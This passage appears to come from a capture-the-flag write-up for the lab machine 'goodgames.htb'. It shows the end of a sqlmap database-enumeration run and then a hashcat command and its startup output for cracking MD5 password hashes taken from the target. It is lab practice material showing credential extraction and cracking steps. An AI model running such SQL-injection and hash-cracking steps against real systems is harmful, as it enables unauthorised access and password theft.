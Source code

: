 [12:50:04] [INFO] retrieved: 
[12:50:05] [WARNING] unable to retrieve the number of password hashes for user 'main_admin'
[12:50:05] [ERROR] unable to retrieve the password hashes for the database users
[12:50:05] [INFO] fetching database users privileges
database management system users privileges:
[*] 'main_admin'@'localhost' [1]:
    privilege: USAGE

[12:50:05] [INFO] fetched data logged to text files under '/home/ops/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 12:50:05 /2022-12-22/

```

### Hash Cracking

```
PS D:\hashcat-6.2.6> .\hashcat -m 0 .\input\goodgames.htb.txt '.\dictionaries\*' -r ..\hashcat\rules\* -o cracked-md5-goodgames-rockyou-all_rules -O -w3 --status
hashcat (v6.2.6-129-g18fcf28d6) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
CUDA API (CUDA 12.0)
====================
* Device #1: NVIDIA GeForce GTX 1070, 7231/8191 MB, 15MCU

OpenCL API (OpenCL 3.0 CUDA 12.0.70) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce GTX 1070, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Watchdog: Temperature abort trigger set to 90c
